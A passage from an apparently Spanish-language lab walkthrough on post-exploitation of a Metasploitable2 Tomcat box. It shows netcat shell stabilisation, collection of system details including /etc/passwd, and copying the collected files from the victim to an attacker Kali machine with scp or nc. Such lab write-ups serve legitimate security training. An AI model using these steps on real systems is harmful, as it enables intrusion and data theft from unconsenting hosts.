 ## 🔍 Tip extra: Estabilizar la shell.

Con una shell limitada (netcat pura), debemos upgradearla a algo más cómodo:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

Luego:

```bash
export TERM=xterm
CTRL+Z   # suspender
stty raw -echo; fg
```

Ahora tenemos una shell interactiva más estable.

## Tip extra 2: Cómo guardar la información

En la shell de tomcat55, cada vez que saquemos algo lo guardamos con tee para que aparezca en pantalla y se guarde en archivo.

Ejemplo:

```bash
# Información básica del sistema
uname -a | tee ~/Pentesting/Metasploitable2/ApacheTomcat/post-explotacion/info_sistema.txt
id | tee -a ~/Pentesting/Metasploitable2/ApacheTomcat/post-explotacion/info_sistema.txt

# Lista de usuarios
cat /etc/passwd | tee ~/Pentesting/Metasploitable2/ApacheTomcat/post-explotacion/usuarios.txt

# Procesos
ps aux | tee ~/Pentesting/Metasploitable2/ApacheTomcat/post-explotacion/procesos.txt

# Red
netstat -tulnp | tee ~/Pentesting/Metasploitable2/ApacheTomcat/post-explotacion/red.txt
```

(Si no puedes usar rutas absolutas de tu Kali en la shell remota debido a que nuestro usuario no tiene privilegios, lo guardamos en /tmp de la víctima y luego lo descargamos con scp o nc.)

### Metodos para obtener la información de la máquina atacante a nuestro Kali:

#### Método 1 --- SCP (si la víctima tiene SSH activo).

Si en el escaneo inicial vimos que el puerto 22 (OpenSSH) estaba abierto, puedes usar scp para traer los archivos:

En nuestra kali:

```bash
scp root@192.168.56.102:/tmp/*.txt ~/Pentesting/Metasploitable2/ApacheTomcat/post-explotacion/
```
